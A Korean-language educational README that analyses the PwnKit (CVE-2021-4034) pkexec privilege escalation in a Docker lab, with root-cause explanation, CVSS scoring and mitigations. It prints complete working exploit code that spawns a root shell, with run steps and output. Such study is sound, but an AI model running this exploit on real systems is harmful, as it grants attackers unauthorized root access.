



# CVE-2021-4034 (PwnKit) - Local Privilege Escalation PoC

> 🔗 **원본 프로젝트**: [berdav/CVE-2021-4034](https://github.com/berdav/CVE-2021-4034)  
> 이 프로젝트는 원본을 기반으로 **교육 목적**으로 분석 및 수정한 버전입니다.  
> **MIT License 준수** | **White Hat School 교육 과제**

---

## 📋 개요

CVE-2021-4034는 Linux **policykit-1**(PolicyKit)의 로컬 권한 상승 취약점이다. 일반 사용자가 `pkexec`를 인자 없이 실행시켜 프로세스 메모리 구조의 허점을 이용하고, 이를 통해 원래는 걸러졌어야 할 환경변수 문자열을 glib이 다시 참조하게 만들어 악의적인 `.so` 파일을 로드시킴으로써 **root 권한을 획득**할 수 있다.

> ⚠️ **교육 목적 전용**: 이 코드는 수정된 시스템에서만 사용해야 합니다.  
> 실제 시스템 공격에 사용하면 법적 책임이 발생할 수 있습니다.

---

## 🎯 취약점 요약

| 항목 | 내용 |
|------|------|
| **CVE ID** | CVE-2021-4034 |
| **취약점명** | PwnKit |
| **영향받는 버전** | polkit 0.105 이전 패치가 적용되지 않은 버전 전반 (테스트 환경 기준: Ubuntu 20.04의 policykit-1 0.105-26ubuntu1) |
| **취약점 타입** | Local Privilege Escalation (LPE) |
| **심각도** | Critical (CVSS 7.8) |
| **패치 버전** | policykit-1 >= 0.105-26ubuntu1.1 |
| **발견일** | 2021년 6월 (공개는 2022년 1월) |

Ubuntu만의 문제로 오해하기 쉬운데, pkexec 자체의 로직 결함이라 polkit을 쓰는 배포판이면 대부분 영향을 받는다. Docker 테스트 환경이 Ubuntu 20.04라 위 표엔 그 버전을 같이 적어뒀다.

---

## 🔴 취약점의 핵심

처음 분석할 때는 "환경변수를 검증 안 해서 생긴 문제"인 줄 알았는데, 소스코드랑 패치 커밋을 같이 보니 순서가 좀 다르다는 걸 알게 됐다. 진짜 원인은 따로 있고, 환경변수 문제는 그 원인 때문에 벌어지는 결과 쪽에 가깝다. 아래는 그 흐름을 원인 순서대로 정리한 것.

### **1. pkexec란?**

`pkexec`는 PolicyKit을 통해 **권한 상승을 요청**하는 SUID-root 프로그램이다.

```bash
# 예: root 권한으로 명령어 실행
pkexec /bin/id
pkexec systemctl restart service
```

일반 사용자가 관리자 권한으로 특정 작업을 수행할 때 쓰인다.

---

### **2. 진짜 근본 원인: pkexec가 `argc == 0`인 경우를 예외처리하지 않음**

pkexec의 `main()` 함수는 명령줄 인자를 처리하는 부분에서, **인자가 하나도 없이 실행된 경우(argc == 0)를 검증하지 않는다.** 이게 이 취약점의 진짜 시작점이다.

- 정상적인 실행: `argv = {"pkexec", "명령어", NULL}` → argc >= 1
- 공격 시 실행: `execve("/usr/bin/pkexec", {NULL}, env)` → **argc == 0**

argc가 0이면 argv 리스트에는 종료를 뜻하는 NULL 하나만 남는다. 그런데 pkexec 내부 로직은 이 상황에서도 존재하지 않는 `argv[1]`을 읽고 쓰려고 시도한다. 문제는 리눅스가 프로세스를 실행할 때 `argv` 배열과 `envp`(환경변수) 배열을 메모리상 **바로 옆에 붙여서** 배치한다는 점이다. 그래서 범위를 벗어난 `argv[1]`은 사실 `envp[0]`, 즉 첫 번째 환경변수를 그대로 가리키게 된다.

```
정상 상황:  argv = [ "pkexec" | NULL ]
공격 상황:  argv = [ NULL ]                 ← argc = 0
                    ↑
             존재하지 않는 argv[1]에 접근
                    ↓
      메모리상 바로 뒤에 있는 envp[0]을 읽고 쓰게 됨 (out-of-bounds)
```

**왜 이게 위험한가:**
- 원래 ld.so는 SUID 프로그램(pkexec)이 실행되기 전에 `GCONV_PATH`, `LD_PRELOAD` 같은 위험한 환경변수를 안전하지 않은 것으로 판단해 제거한다.
- 그런데 위 OOB 동작 때문에, 이미 제거된 문자열이 "환경변수로 복원"되는 게 아니라 **argv 포인터 쪽에서 그 문자열을 다시 참조 가능한 상태가 된다.** 즉 값이 되살아나는 게 아니라, 그 값을 가리키는 포인터 연결이 다시 생기는 것에 가깝다.
- 실제 패치 커밋도 `argc < 1`이면 즉시 종료하도록 검증 로직을 추가하는 방식으로 이 부분을 고쳤다. (CWE-125 out-of-bounds read, CWE-787 out-of-bounds write에 해당)

> 📌 정리하면: **환경변수 미검증은 "공격이 통하는 조건"이고, 진짜 취약점(root cause)은 pkexec가 argc == 0인 경우를 처리하지 않은 것**이다. 아래 3번은 이 원인 때문에 벌어지는 결과 쪽이다.

---

### **3. 결과: 걸러졌어야 할 문자열이 다시 참조 가능해짐**

2번에서 설명한 OOB 동작 덕분에, pkexec가 glib을 초기화하는 과정에서 이 문자열이 **검증되지 않은 채로** 다시 쓰이게 된다.

```c
// CVE-2021-4034_exploit.c
char * const env[] = {
    "GCONV_PATH=.",      // 원래는 ld.so가 걸러냈어야 함
    "CHARSET=PWNKIT",    // 존재하지 않는 인코딩
};

execve("/usr/bin/pkexec", args, env);  // argv는 비워서 argc=0을 만듦
```

**문제:**
- 2번의 OOB로 인해 이 문자열이 다시 참조 가능한 상태가 되어 glib 초기화 단계까지 그대로 흘러들어감
- glib 입장에서는 이 값이 원래 있던 정상 환경변수인지, 공격자가 되살린 것인지 구분할 방법이 없음

---

### **4. glib의 Converter 로드 메커니즘 악용**

여기서 중요한 건, glib 자체는 잘못한 게 없다는 점이다. `GCONV_PATH`가 설정되어 있으면 그 경로에서 converter를 찾는 건 glib의 **정상 동작**이다. 문제는 pkexec가 secure execution 상태(위험한 환경변수가 제거된 상태)를 이미 깨뜨려놓은 뒤라는 것 — glib은 그저 정상적으로 동작했을 뿐인데, 그 정상 동작이 악용당하는 구조다.

1. **CHARSET 환경변수 확인**
   ```
   CHARSET=PWNKIT
   ```

2. **gconv-modules 파일에서 converter 정의 검색**
   ```
   module UTF-8// PWNKIT// pwnkit 1
   ```

3. **GCONV_PATH에서 .so 파일 로드**
   ```
   GCONV_PATH=. → 현재 디렉토리에서 pwnkit.so 검색
   ```

4. **.so 파일의 초기화 함수 자동 실행**

   ```c
   // pwnkit.c - .so 파일 로드 시 자동으로 실행됨
   void gconv_init(void *step)
   {
       setuid(0);           // root 권한 획득
       setgid(0);
       execve("/bin/sh");   // root shell 실행!
   }
   ```

   `gconv_init`을 "생성자 함수"라고 부르기 쉬운데, 엄밀히는 C의 `__attribute__((constructor))`와는 다르다. 정확히는 **gconv 모듈 인터페이스에서 정의된 초기화 함수**이고, glib이 `dlopen`으로 `.so`를 로드한 뒤 이 함수를 명시적으로 호출하는 것이다.

---

### **5. 전체 공격 흐름**

```
┌─────────────────────────────────────┐
│ 일반 사용자 (uid=1000)               │
└─────────────────────────────────────┘
          │
          │ 1. argv 비우고 pkexec 실행 (argc=0)
          │    + 악의적 환경변수 설정
          │    GCONV_PATH=.  /  CHARSET=PWNKIT
          ↓
┌─────────────────────────────────────┐
│ pkexec 실행                          │
│ argc 검증 없음 → OOB → 문자열 재참조 │
└─────────────────────────────────────┘
          │
          │ 2. glib이 정상 동작대로 처리
          │    CHARSET=PWNKIT 인코딩 검색
          │    GCONV_PATH=.에서 converter 찾음
          ↓
┌─────────────────────────────────────┐
│ pwnkit.so 로드                       │
│ (현재 디렉토리의 악의적 .so 파일)     │
└─────────────────────────────────────┘
          │
          │ 3. gconv 초기화 함수 자동 실행 (root 권한!)
          ↓
┌─────────────────────────────────────┐
│ root shell 획득 ✅                   │
│ uid=0(root) gid=0(root)              │
└─────────────────────────────────────┘
```

---

## 🚀 빠른 시작

### **필수 요구사항**

- Docker (또는 Docker Desktop)
- git
- Linux 환경 (또는 WSL 2)

### **실행 명령어**

```bash
# 1. 프로젝트 받기
git clone https://github.com/krleejihyeong/WHS4_CVE-2021-4034.git
cd WHS4_CVE-2021-4034

# 2. 최신 버전 확인
git pull origin main

# 3. 빌드 (캐시 없이)
docker compose build --no-cache

# 4. 실행
docker compose up
```

`docker system prune -a --volumes --force`는 캐시나 볼륨이 꼬여서 위 방법으로 안 될 때만 쓰는 걸 추천한다. 시스템 전체의 Docker 캐시를 지우는 꽤 공격적인 명령이라, 다른 프로젝트 캐시까지 같이 날아갈 수 있다. 관련 내용은 아래 "겪었던 문제 및 해결 방법"에 따로 정리해뒀다.

### **예상 결과**

```
pwnkit  | 현재 권한 (공격 전): uid=1000(WHS4_student)
pwnkit  | # id
pwnkit  | uid=0(root) gid=0(root) groups=0(root)  ← 성공! ✅
```
### **실제 결과**




---

## 📁 프로젝트 구조

```
WHS4_CVE-2021-4034/
├── docker-compose.yml          # Docker Compose 설정
├── Dockerfile                   # 취약 Ubuntu 20.04 환경
├── start.sh                     # 컨테이너 초기화 및 자동 실행
├── Makefile                     # 빌드 설정
├── CVE-2021-4034_exploit.c      # Exploit 코드 (pkexec 호출)
├── pwnkit.c                     # 악의적 .so 파일 (권한 상승)
├── gconv-modules                # glib converter 매핑
├── README.md                    # 이 파일
└── LICENSE                      # MIT License
```

---

## 💻 PoC 코드 분석

### **CVE-2021-4034_exploit.c**

```c
#include <unistd.h>

int main(int argc, char *argv[])
{
    // pkexec에 실행할 프로그램을 지정하지 않음
    // (args에 NULL만 있음) → 이게 곧 argc=0을 만드는 부분
    char * const args[] = {
        NULL
    };

    // 🔴 검증되지 않은 악의적 환경변수
    // argc=0으로 인한 OOB 덕분에 다시 참조 가능해져 pkexec에 그대로 전달됨
    char * const env[] = {
        "GCONV_PATH=.",          // converter 경로 (현재 디렉토리)
        "CHARSET=PWNKIT",        // 존재하지 않는 인코딩
        "SHELL=/bin/sh",
        "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
        NULL
    };

    // pkexec 실행 (인자 없이 → argc=0 트리거)
    execve("/usr/bin/pkexec", args, env);

    return 0;
}
```

**핵심:**
- `args`에 `pkexec` 자체 이름조차 넣지 않아 argc가 0이 되도록 만듦 → 근본 원인(argc 미검증) 트리거
- `GCONV_PATH=.` : OOB로 다시 참조 가능해진 뒤 glib이 이 경로에서 converter를 검색
- `CHARSET=PWNKIT` : glib이 이 인코딩의 converter를 찾도록 유도

---

### **pwnkit.c**

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// .so 파일을 converter로 인식하기 위한 함수 (형식상 필요)
void gconv()
{
}

// 🎯 CVE-2021-4034의 핵심
// .so 파일 로드 시 glib이 dlopen 후 명시적으로 호출하는 초기화 함수
// 이 함수가 root 권한으로 실행된다! ← 핵심 취약점!
void gconv_init(void *step)
{
    char * const args[] = {
        "/bin/sh",      // root shell 실행
        NULL
    };
    char * const env[] = {
        "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
        NULL
    };

    // root 권한 명시적 설정 (이미 root이지만)
    setuid(0);
    setgid(0);

    // root shell 실행 ← 권한 상승 성공!
    execve(args[0], args, env);

    exit(0);
}
```

**핵심:**
- `gconv_init()`은 C constructor attribute가 아니라, gconv 모듈 인터페이스 규격에 따라 glib이 `dlopen` 이후 직접 호출하는 초기화 함수
- pkexec은 root 권한으로 실행되므로, 이 함수도 root 권한으로 돎
- 따라서 `setuid(0)` 후 shell을 실행하면 root shell을 그대로 얻게 됨

---

## ✅ 검증 결과

#### 아래의 검증 결과는 직접 환경을 구현하고 직접 익스플로잇을 했을 때의 기준으로 했다. 즉, 빠른 실행으로 한다면 아래 처럼 나오지 않는다.
#### 아래 처럼 나오게 하고 싶다면 해당 저장소에 있는 Dockerfile, start.sh 등을 이용해서 직접 환경을 구축해야 한다.
#### 하지만 start.sh, Dockerfile 같은 경우에는 과제의 형식을 맞추기 위해 자동화를 진행했으므로 그대로 사용할 시에 원하는 결과가 나오지 않을 수 있다.
#### 따라서 직접 해당 파일을 수정해야 한다.

### 공격 전

```
$ id
uid=1000(WHS4_student) gid=1000(WHS4_student) groups=1000(WHS4_student),27(sudo)

$ cat /etc/shadow
cat: /etc/shadow: Permission denied
```

### 실제 공격 전 권한



실제로 해당 갭쳐본은 처음으로 익스플로잇이 성공했을 때이며 위를 보면 사용자 권한에 대해 나온다.


### 공격 실행

```
$ ./CVE-2021-4034_exploit
```

> 참고: exploit 자체는 sudo가 필요 없다. pkexec가 이미 SUID-root 바이너리라 일반 사용자 권한만으로 root shell을 얻는 게 이 취약점의 핵심이다. Docker 테스트 환경에서 `sudo -E`를 쓴 적이 있는데, 이건 NOPASSWD 설정을 확인하는 실행 편의를 위한 것이었고 취약점 자체와는 무관하다.


### 공격 후

```
# id
uid=0(root) gid=0(root) groups=0(root)

# cat /etc/shadow
root:*:18783:0:99999:7:::
daemon:*:18783:0:99999:7:::
... (root만 볼 수 있는 내용)
```

### 실제 공격 후 권한



위를 보면 실제 공격 이후 루트 권한을 얻을 것을 볼 수 있다.

좀 더 전체적으로 공격 이전과 이후에 대해 보고 싶다면 위의 ### 실제 공격 전 권한 부분의 사진을 보는 것을 추천한다.


✅ **권한 상승 성공!**

---

## 📊 평가 지표

### Reproducibility

Ubuntu 20.04 기반 Docker 환경에서 재현 성공 (policykit-1 0.105-26ubuntu1). 아직 반복 테스트 횟수가 많지 않아서, 커널·배포판 버전을 바꿔가며 몇 차례 더 돌려보고 결과를 채워나갈 예정이다.

### Risk Score: 7.8 / 10.0 (Critical, CVSS 3.1 기준)

- **필요 권한**: 원격 공격이 아니라 로컬 공격이며, 원격 인증 우회는 아니다. 일반 사용자 계정으로 로그인만 되어 있으면 추가 권한 없이 공격 가능하다 (Privileges Required: Low). 즉 "인증이 아예 필요 없다"는 게 아니라 "로그인 자체는 필요하지만 그 이상의 권한은 필요 없다"는 뜻이다.
- **공격 벡터**: 로컬 전용 (Attack Vector: Local) — 원격에서는 이 취약점을 직접 악용할 수 없고, 먼저 로컬 셸 접근 권한을 확보해야 한다.
- **영향 범위**: Scope: Changed. pkexec는 PolicyKit이라는 별도의 권한 관리 구성요소를 통해 root 권한으로 실행되기 때문에, 취약점이 악용되면 공격이 시작된 권한 영역(일반 사용자)을 넘어 다른 보안 권한 영역(root, PolicyKit이 관리하는 시스템 전체)에까지 영향을 미친다. 이 때문에 CVSS에서 Scope가 Changed로 평가된다.
- **영향 요소**: 기밀성·무결성·가용성(C/I/A) 모두 High
- 참고: [NVD CVSS 벡터 상세](https://nvd.nist.gov/vuln/detail/CVE-2021-4034)

---

## 🛡️ 방어 방법

### 즉시 대응

```bash
# 1. 패치 업그레이드 (권장) 
sudo apt-get update
sudo apt-get install policykit-1=0.105-26ubuntu1.1

# 버전 확인
dpkg -l | grep policykit-1
# 0.105-26ubuntu1.1 이상이어야 함
```

### sudo 제한

```bash
# /etc/sudoers 수정 (sudo visudo)
Defaults env_delete = "GCONV_PATH,GCONV_MODULES,CHARSET"
```

### 환경변수 정제

```bash
unset GCONV_PATH
unset GCONV_MODULES
unset CHARSET
```

패치가 근본 해결책이고, 위 두 가지는 패치 전까지 쓸 수 있는 임시방편에 가깝다. argc 검증 자체는 pkexec 코드가 고쳐져야 해결되는 문제라 환경변수 쪽만 막아서는 완전히 막히지 않는다.

---

## ⚠️ 겪었던 문제 및 해결 방법 

### **문제 1: `docker-compose` 명령어를 찾을 수 없음**

**원인:** Ubuntu 24.04에서는 `docker-compose`(v1)이 없고 `docker compose`(v2)만 있음

**해결:**
```bash
# docker compose 명령어 사용 (v2)
docker compose up
```

---

### **문제 2: "비밀번호 요청: sudo password for WHS4_student"**

**원인:** Dockerfile의 NOPASSWD 설정이 제대로 반영되지 않음 (Docker 캐시 문제)

**해결:**
```bash
docker compose build --no-cache
docker compose up
```

그래도 안 되면 캐시를 완전히 지우고 다시 시도한다.

```bash
docker compose down -v
docker system prune -a --volumes --force
docker compose up --build --no-cache
```

---

### **문제 3: GitHub 업데이트가 로컬에 반영되지 않음**

**원인:** 로컬 파일이 이전 버전으로 유지됨

**해결:**
```bash
# GitHub에서 최신 버전 받기
git pull origin main

# 파일 확인
cat Dockerfile | grep NOPASSWD
cat start.sh | grep "nofork=false"

# 다시 빌드
docker compose up --build --no-cache
```

---

### **문제 4: "The container name is already in use"**

**원인:** 기존 컨테이너가 남아있음

**해결:**
```bash
# 컨테이너 제거
docker compose down
docker rm pwnkit -f

# 다시 실행
docker compose up
```

---

### **문제 5: "permission denied" (파일 권한)**

**원인:** Docker에서 생성된 파일의 권한이 root임

**해결:**
```bash
# WSL/Linux에서
sudo rm -rf WHS4_CVE-2021-4034
```

---

## 📚 참고 및 출처

### 원본 프로젝트

- **저자**: [berdav](https://github.com/berdav)
- **저장소**: https://github.com/berdav/CVE-2021-4034
- **라이선스**: MIT License
- **참고한 부분**:
  - CVE-2021-4034_exploit.c의 기본 구조
  - pwnkit.c의 gconv_init 구현
  - gconv-modules 파일 형식
  - Makefile 빌드 방식

### 이 프로젝트의 수정 및 추가 사항

**작성자**: krleejihyeong

**새로 작성/수정한 부분**:
- ✅ **docker-compose.yml**: Docker 실행 환경 구성
- ✅ **Dockerfile**: 취약 환경 자동 구성 (dbus, polkitd, NOPASSWD 설정)
- ✅ **start.sh**: 자동 실행 스크립트 (빌드 → 공격 실행까지 완전 자동화)
- ✅ **README.md**: 취약점 근본 원인 분석(argc 검증 부재), 재현 결과, 위험도 평가, 문제 해결 가이드 작성
- ✅ **한글 주석 및 설명**: 취약점 이해도 향상

### 참고 자료

- [Qualys: CVE-2021-4034 상세 분석](https://www.qualys.com/2021/06/02/cve-2021-4034-pwnkit/cve-2021-4034.txt)
- [NVD: CVE-2021-4034](https://nvd.nist.gov/vuln/detail/CVE-2021-4034)
- [PolicyKit 공식 문서](https://polkit.freedesktop.org/)

---

## 📄 라이선스

이 프로젝트는 MIT License를 따릅니다.

```
Copyright (c) 2026 krleejihyeong (수정 및 분석)
Copyright (c) 2021 berdav (원본 PoC)

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.
```

자세한 내용은 LICENSE 파일을 참조하세요.

---

## 👤 작성자

- **krleejihyeong** - 분석, 수정, Docker 환경 구성, 문서 작성
- **berdav** - 원본 PoC 작성 (https://github.com/berdav/CVE-2021-4034)

---

## ⚠️ 법적 고지

이 프로젝트는 **순수 교육 목적**으로만 제작되었습니다.

- ✅ 공개된 CVE를 대상
- ✅ 패치된 시스템에서만 테스트
- ✅ 시스템 관리자의 허가 하에 사용
- ✅ 취약점 이해 및 방어 강화 목적

**권한 없는 컴퓨터 시스템 접근은 법적으로 처벌받을 수 있습니다.**

---

**마지막 업데이트**: 2026년 7월
